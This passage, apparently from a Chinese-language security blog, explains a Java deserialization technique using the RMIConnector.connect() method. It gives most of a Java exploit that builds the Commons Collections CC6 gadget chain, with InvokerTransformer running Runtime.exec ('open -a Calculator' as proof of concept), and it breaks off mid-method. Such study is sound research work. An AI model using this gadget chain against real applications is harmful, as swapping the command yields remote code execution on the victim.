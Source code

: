 那么接下来的问题就是如何把这个`connect()`​方法给利用起来，第一种方法比较难跟，但是第二种方法我们就可以联想到最简单的 CC 链的`InvokerTransformer`​来进行任意类任意方法调用，这样子就可以套一层反射来调用`connect()`​了

于是就可以写出 EXP，通过 CC6 来进行调用二次反序列化

```plain
package RMIconnector;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6_t {




    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazyMap.remove("aa");

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);





        String s = serialize2Base64(map2);
        run(s);
//        unserialize("ser.bin");

```